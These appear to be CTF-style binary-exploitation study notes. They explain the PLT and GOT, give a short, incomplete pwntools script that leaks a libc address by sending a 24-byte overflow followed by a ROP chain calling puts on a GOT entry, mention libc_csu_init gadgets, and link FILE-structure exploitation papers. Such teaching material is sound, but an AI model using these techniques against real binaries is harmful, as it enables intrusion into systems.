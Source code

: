 ### **Puts Puts**

PLT - Procedure Linkage Table

- If the address of the external resource (eg puts) is known, jumps to it.

- If the address of the external resource is *not* known, look it up

- Accessible in pwntools via 

  ```python
  elf.plt['function_name']
  ```


GOT - Global Offset Table

- Contains pointers to external resources
- Accessible in pwntools via
```python
  elf.got['function_name']
  ```
  
Example pwntools script to find leak:

```python
from pwn import *

# tell pwntools about your system so it knows calling convention, etc.
context(arch='x86', os='linux', endian='little', terminal=['tmux', 'splitw', '-h'])

# create objects to help us parse the elf and create ROP chains
elf = ELF('path/to/binary')
rop = ROP(elf)

# get a ROP gadget to call puts with a pointer to an address in libc as an address
rop.puts(elf.got['puts'])
p.sendline('A'*24+str(rop))
```
[More Detailed Look at PLT/GOT for Pwning Purposes](https://systemoverlord.com/2017/03/19/got-and-plt-for-pwning.html)

[Example Writeup Using Puts Puts with Pwntools](http://ctfhacker.com/ctf/pwnable/2015/08/18/campctf-bitterman.html)


### **Libc_csu_init**

Can't find ROP gadgets to set your arguments? Make your own gadgets!

![](/Users/Rylan/Desktop/Useful/media/libc_csu_init.jpeg)

**STDIN Buffer**

[https://www.slideshare.net/AngelBoy1/play-with-file-structure-yet-another-binary-exploit-technique](https://www.slideshare.net/AngelBoy1/play-with-file-structure-yet-another-binary-exploit-technique)

[https://gsec.hitb.org/materials/sg2018/WHITEPAPERS/FILE%20Structures%20-%20Another%20Binary%20Exploitation%20Technique%20-%20An-Jie%20Yang.pdf](https://gsec.hitb.org/materials/sg2018/WHITEPAPERS/FILE%20Structures%20-%20Another%20Binary%20Exploitation%20Technique%20-%20An-Jie%20Yang.pdf)
